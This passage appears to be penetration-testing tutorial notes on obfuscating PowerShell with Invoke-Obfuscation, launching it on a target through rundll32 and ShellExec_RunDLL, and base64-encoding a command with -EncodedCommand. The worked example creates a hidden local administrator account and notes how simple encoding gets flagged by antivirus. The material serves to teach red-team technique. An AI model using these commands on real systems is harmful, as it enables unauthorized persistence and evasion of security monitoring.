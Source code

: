1. We SET SCRIPTBLOCK with the code we want to execute

2. We select an obfuscation methos to generate the obfuscate command

3. We then use the LAUNCHER option at the end of this process


In this example, we'll assume we followed the above steps, and now select our launcher command:

We'll choose the RUNDLL method and then the command line options we'd like to use as well, in this case,
we'll choose 0 for No Execution Flags:


The resulting string, is an obfuscated command that utilizes rundll32.exe with the "SHELL32.DLL" function
(ShellExec_RunDLL) which will launch our obfuscated PowerShell code on the target



# Tutorial/Help option

Invoke-Obfuscation includes a Tutorial option if we ever get stuck and need guidance, 
just type tutorial in the PowerShell prompt




# Base64 EncodedCommand

Although its not really a recommended obfuscation method since it can be easily detected by AV and other
string heuristics, considering its just base64 encoding, PowerShell's EncodedCommand parameter can be used


The -EncodedCommand parameter allows us to execute encoded commands or script blocks which contain
characters which might interfere with the processing of our commandvia a windows command prompt

In simpler terms, it makes complex commands "digestible" for PowerShell by encoding everything with Base64


As an example, to encode a command that will add a new user "admin1" to the local administrators group
we can do the following

PS C:\> $command = `net user admin1 "p@ssw0rd9001" /ADD; net localgroup administrators admin1 /add`
PS C:\> $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
PS C:\> $encodedCommand = [Convert]::ToBase64String($bytes)

We can then get the results of our encoded command with the Write-Host cmdlet against our 
$encodedCommand variable

PS C:\> Write-Host $encodedCommand
[result shown here]



We then execute our encoded command with the powershell.exe -EncodedCommand parameter on the target:


C:\WINDOWS\system32> powershell.exe -encodedcommand [paste encoded command here]